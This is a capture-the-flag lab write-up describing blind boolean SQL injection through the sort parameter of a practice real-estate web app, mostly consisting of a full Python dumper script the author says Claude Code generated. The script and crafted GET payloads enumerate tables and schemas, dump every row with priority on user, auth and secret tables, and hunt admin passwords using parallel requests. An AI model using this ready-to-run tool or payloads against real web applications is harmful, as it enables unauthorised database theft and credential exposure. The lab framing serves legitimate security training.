








OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
Parcel (SQLi) Writeup
Lab can be found at: https://webverselabs-pro.com/
I thought this lab was “hard”. Despite being listed as easy, this lab really, really makes you work for it. Essentially, the description of the lab lets you know that the aim of the game is SQLi. So, I started the lab and began to hunt.
Gridmark is a Real Estate Market webapp which lets you look for properties and perform searches, save favourites etc.
I looked around the app for a place I could inject SQL. The “Search” feature seemed the most obvious place.

When you performed a search, it would look like this:

I spent a long, long while trying to see if I could get SQLi here. I couldn’t. And that’s because I returned to the page and realised there was another option I needed to add. sort. You could sort results on the page:

Now, this type of SQLi was getting out of my depth. This isn’t your standard 1=1 payload (well, sort of). This is a blind boolean in the ORDER BY clause.
By blind, we mean that the application doesn’t reflect any SQL output back in the response. As an attacker, we never see the actual extracted values in an error message, HTML, or JSON etc.
By boolean, we mean we evaluate the response via a true/false query, not a timing delay. In short: does the response look like “19 results found” (TRUE) or “0 results found” (FALSE)? Then we fire queries and get some information back per HTTP request, which we can use to further the attack.
My first payload was:
GET /search?q=&type=house&min_price=100000&max_price=10000000&bedrooms=&sort=(CASE%20WHEN%20(SELECT%20sqlite_version())%20IS%20NOT%20NULL%20THEN%20price%20ELSE%20id%20END)

The SQL CASE command is a boolean-based blind injection technique we can use to attempt to call a SQLite function to confirm if the backend DB is indeed using SQLite.
“IS NOT NULL” means that if SQLite is running, the function returns a string so the condition is TRUE.
“THEN price” means that if the condition is true, sort results by price
and ELSE id means that if the condition is false, sort by id.
With this, I got 19 results:

To confirm we had something, I then used:
GET /search?q=&type=house&min_price=100000&max_price=10000000&bedrooms=&sort=price%20LIMIT%20(CASE%20WHEN%20(1=2)%20THEN%2019%20ELSE%200%20END)-- HTTP/1.1
This is a conditional expression:
CASE WHEN (1=2)Tests if 1 equals 2 (always false)THEN 19 If true, return 19ELSE 0 If false, return 00LIMIT 0, which returns no resultsThis basically is a payload to see if we can return 0 results. If we can, then we’ll know our injection worked. Spoiler: it worked and we got 0 results found:

Now here’s when things got tricky and I think this is a hard lab. SQLmap couldn’t get anywhere. No matter what I tried, it failed. Now, admittedly, I could have continued trying and maybe got somewhere, but I figured I’d “join the dark side” and do what most people would do in this scenario, I told Claude Code what my situation was, what I’d tried and told it to generate a script to dump the DB.
It came back with a HUGE, HUGE script. And then I got to work, dumping the DB. I’ll save you the hassle because it took me a long….LONG time.
The flag was hiding in the platform_config table. So if you download the script below, change the session cookie to match your own and run the following:
python3 flaghunter.py query "SELECT value FROM platform_config WHERE key='PLATFORM_API_LICENSE_KEY'"
you’ll get the flag within a matter of seconds 8.2 seconds to be precise:

If you wish to dump the table for fun, you can, but I did it so you don’t have to. There’s really not much point because it takes a long, long time and there’s nothing too juicy in there.

Python3 code is here if you wish to use it to grab the flag:
#!/usr/bin/env python3
"""
GridMark boolean-blind SQL injection dumper — fast edition.
Speedups vs v1:
- ThreadPoolExecutor for parallel probes (default 15 workers)
- Prefix confirmation: verify a known prefix in O(prefix_len) requests
instead of O(prefix_len * log2(charset)) blind-searching it
- find-admin command: scan a table for a password with known prefix
Usage:
python3 gridmark_dump.py tables
python3 gridmark_dump.py schema users
python3 gridmark_dump.py dump users email,password
python3 gridmark_dump.py query "SELECT email FROM users LIMIT 1"
# find account whose password starts with WEBVERSE and dump full row
python3 gridmark_dump.py find-admin users email,password WEBVERSE
# dump EVERYTHING - auto-discovers schemas and dumps every row of every table
python3 gridmark_dump.py dump-all
python3 gridmark_dump.py dump-all activity_log,listings # skip big tables
"""
import sys
import urllib.parse
import urllib.request
import urllib.error
import threading
import time
from concurrent.futures import ThreadPoolExecutor, as_completed
# ---------- config ----------
BASE = "http://app.gridmark.io"
# REPLACE THE SESSION ID WITH YOUR OWN SESSION TOKEN
COOKIE = "session=<token here e.g .eJW....>"
TRUE_THRESHOLD = 30000
WORKERS = 15
REQUEST_TIMEOUT = 15
_probe_count = 0
_probe_lock = threading.Lock()
def _bump():
global _probe_count
with _probe_lock:
_probe_count += 1
def probe(sql_condition: str) -> bool:
"""Boolean-blind oracle via page-size delta."""
payload = f"price LIMIT (CASE WHEN ({sql_condition}) THEN 19 ELSE 0 END)--"
params = {
"q": "", "type": "house",
"min_price": "100000", "max_price": "10000000",
"bedrooms": "", "sort": payload,
}
url = f"{BASE}/search?" + urllib.parse.urlencode(params, safe="")
req = urllib.request.Request(url, headers={"Cookie": COOKIE})
for attempt in range(3):
try:
with urllib.request.urlopen(req, timeout=REQUEST_TIMEOUT) as resp:
body = resp.read()
_bump()
return len(body) > TRUE_THRESHOLD
except (urllib.error.URLError, TimeoutError):
if attempt == 2:
raise
time.sleep(0.5 * (attempt + 1))
def extract_length(expr: str, max_len: int = 512) -> int:
lo, hi = 0, 1
while hi < max_len and probe(f"length({expr})>{hi}"):
lo, hi = hi, min(hi * 2, max_len)
while lo < hi:
mid = (lo + hi + 1) // 2
if probe(f"length({expr})>={mid}"):
lo = mid
else:
hi = mid - 1
return lo
def extract_char(expr: str, pos: int) -> str:
lo, hi = 32, 126
while lo < hi:
mid = (lo + hi) // 2
if probe(f"unicode(substr({expr},{pos},1))>{mid}"):
lo = mid + 1
else:
hi = mid
return chr(lo)
def verify_prefix(expr: str, prefix: str) -> bool:
"""Costs len(prefix) requests — much cheaper than full blind search."""
for i, c in enumerate(prefix, start=1):
if not probe(f"unicode(substr({expr},{i},1))={ord(c)}"):
return False
return True
def extract_range_parallel(expr: str, start: int, end: int, workers: int = WORKERS) -> str:
result = [""] * (end - start + 1)
with ThreadPoolExecutor(max_workers=workers) as ex:
futures = {ex.submit(extract_char, expr, i): i for i in range(start, end + 1)}
for fut in as_completed(futures):
i = futures[fut]
result[i - start] = fut.result()
done = sum(1 for x in result if x)
sys.stdout.write(f"
extracting... {done}/{len(result)}")
sys.stdout.flush()
print()
return "".join(result)
def extract_string(expr: str, known_prefix: str = "") -> str:
n = extract_length(expr)
print(f" [length: {n}]")
if n == 0:
return ""
if known_prefix:
if len(known_prefix) > n:
print(f" [prefix too long for value]")
return ""
print(f" verifying prefix '{known_prefix}'...")
if not verify_prefix(expr, known_prefix):
print(f" [prefix '{known_prefix}' NOT present]")
return ""
print(f" [prefix confirmed]")
if len(known_prefix) == n:
return known_prefix
tail = extract_range_parallel(expr, len(known_prefix) + 1, n)
return known_prefix + tail
return extract_range_parallel(expr, 1, n)
def count_rows(table: str, where: str = "") -> int:
w = f" WHERE {where}" if where else ""
expr = f"(SELECT count(*) FROM {table}{w})"
lo, hi = 0, 1
while probe(f"{expr}>{hi}"):
lo, hi = hi, hi * 2
while lo < hi:
mid = (lo + hi + 1) // 2
if probe(f"{expr}>={mid}"):
lo = mid
else:
hi = mid - 1
return lo
def cmd_tables():
expr = "(SELECT group_concat(name,'|') FROM sqlite_master WHERE type='table')"
print("[*] Dumping table names...")
t0 = time.time()
tables = extract_string(expr)
print(f"
[+] Tables: {tables.split('|')}")
print(f"[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
def cmd_schema(table: str):
expr = f"(SELECT sql FROM sqlite_master WHERE type='table' AND name='{table}')"
print(f"[*] Dumping schema for '{table}'...")
t0 = time.time()
schema = extract_string(expr)
print(f"
[+] Schema:
{schema}")
print(f"[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
def cmd_dump(table: str, cols: str):
count = count_rows(table)
print(f"[*] {count} rows in '{table}'. Dumping [{cols}]...")
col_list = [c.strip() for c in cols.split(",")]
concat = "||char(124)||".join(col_list)
t0 = time.time()
for row_idx in range(count):
expr = f"(SELECT {concat} FROM {table} LIMIT 1 OFFSET {row_idx})"
print(f"
[row {row_idx}]")
val = extract_string(expr)
fields = val.split("|")
for name, v in zip(col_list, fields):
print(f" {name}: {v}")
print(f"
[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
def cmd_find_admin(table: str, cols: str, password_prefix: str):
"""
Scan rows of `table` for a password (last col in `cols`) starting with
`password_prefix`. On match, dump the full row.
Fast path: one SQL query using LIKE to find the matching row's offset,
then extract that single row.
"""
col_list = [c.strip() for c in cols.split(",")]
pw_col = col_list[-1]
t0 = time.time()
# Fast path: ask the DB directly via LIKE. Single count + single row dump.
# Using char() to avoid single quotes in the literal.
prefix_sql = "||".join(f"char({ord(c)})" for c in password_prefix)
where = f"{pw_col} LIKE {prefix_sql}||char(37)" # char(37) = '%'
n = count_rows(table, where)
print(f"[*] {n} row(s) in '{table}' with {pw_col} LIKE '{password_prefix}%'")
if n == 0:
print("[-] no match")
print(f"[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
return
concat = "||char(124)||".join(col_list)
for row_idx in range(n):
expr = f"(SELECT {concat} FROM {table} WHERE {where} LIMIT 1 OFFSET {row_idx})"
print(f"
[match {row_idx}]")
val = extract_string(expr, known_prefix="")
# split and present
fields = val.split("|")
for name, v in zip(col_list, fields):
print(f" {name}: {v}")
print(f"
[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
def _parse_columns_from_schema(schema: str) -> list:
"""Extract column names from a CREATE TABLE ... SQL string."""
import re
# grab everything between the outermost parens
m = re.search(r"\((.*)\)", schema, flags=re.DOTALL)
if not m:
return []
inner = m.group(1)
# split on top-level commas (ignore commas inside parens)
cols, depth, buf = [], 0, ""
for ch in inner:
if ch == "(":
depth += 1
elif ch == ")":
depth -= 1
if ch == "," and depth == 0:
cols.append(buf.strip())
buf = ""
else:
buf += ch
if buf.strip():
cols.append(buf.strip())
# first token of each clause is the col name; skip constraint clauses
names = []
for c in cols:
first = c.split()[0].strip('"`[]')
if first.upper() in ("PRIMARY", "UNIQUE", "CHECK", "FOREIGN", "CONSTRAINT"):
continue
names.append(first)
return names
def cmd_dump_all(skip_tables: str = ""):
"""
Discover every user table, extract its schema, then dump every row of every
column. Skips sqlite_* internal tables.
"""
skip = set(s.strip() for s in skip_tables.split(",") if s.strip())
skip.add("sqlite_sequence") # always skip
t0 = time.time()
print("[*] Phase 1: enumerating tables...")
tables_expr = "(SELECT group_concat(name,'|') FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%')"
tables_str = extract_string(tables_expr)
tables = [t for t in tables_str.split("|") if t and t not in skip]
print(f"[+] Tables to dump ({len(tables)}): {tables}")
# prioritize interesting tables first
priority = ("user", "auth", "account", "admin", "config", "secret", "token", "key", "flag")
tables.sort(key=lambda t: (
0 if any(p in t.lower() for p in priority) else 1,
t
))
print(f"[*] Dump order: {tables}")
for table in tables:
print(f"
{'='*60}
[*] TABLE: {table}
{'='*60}")
schema_expr = f"(SELECT sql FROM sqlite_master WHERE type='table' AND name='{table}')"
schema = extract_string(schema_expr)
print(f"[schema] {schema}")
cols = _parse_columns_from_schema(schema)
if not cols:
print(f"[!] could not parse columns for {table}, skipping")
continue
print(f"[cols] {cols}")
n = count_rows(table)
print(f"[rows] {n}")
if n == 0:
continue
concat = "||char(124)||".join(cols)
for row_idx in range(n):
expr = f"(SELECT {concat} FROM {table} LIMIT 1 OFFSET {row_idx})"
print(f"
--- {table}[{row_idx}] ---")
val = extract_string(expr)
fields = val.split("|")
for name, v in zip(cols, fields):
print(f" {name}: {v}")
print(f"
[cumulative] {_probe_count} probes, {time.time()-t0:.1f}s")
print(f"
{'='*60}
[DONE] {_probe_count} total probes, {time.time()-t0:.1f}s
{'='*60}")
def cmd_query(q: str):
expr = f"({q})"
print(f"[*] Running: {q}")
t0 = time.time()
val = extract_string(expr)
print(f"
[+] Result: {val}")
print(f"[stats] {_probe_count} probes, {time.time()-t0:.1f}s")
if __name__ == "__main__":
if len(sys.argv) < 2:
print(__doc__)
sys.exit(1)
mode = sys.argv[1]
try:
if mode == "tables":
cmd_tables()
elif mode == "schema" and len(sys.argv) >= 3:
cmd_schema(sys.argv[2])
elif mode == "dump" and len(sys.argv) >= 4:
cmd_dump(sys.argv[2], sys.argv[3])
elif mode == "find-admin" and len(sys.argv) >= 5:
cmd_find_admin(sys.argv[2], sys.argv[3], sys.argv[4])
elif mode == "dump-all":
skip = sys.argv[2] if len(sys.argv) >= 3 else ""
cmd_dump_all(skip)
elif mode == "query" and len(sys.argv) >= 3:
cmd_query(sys.argv[2])
else:
print(__doc__)
sys.exit(1)
except KeyboardInterrupt:
print(f"
[!] interrupted after {_probe_count} probes")
sys.exit(130)Thanks for reading!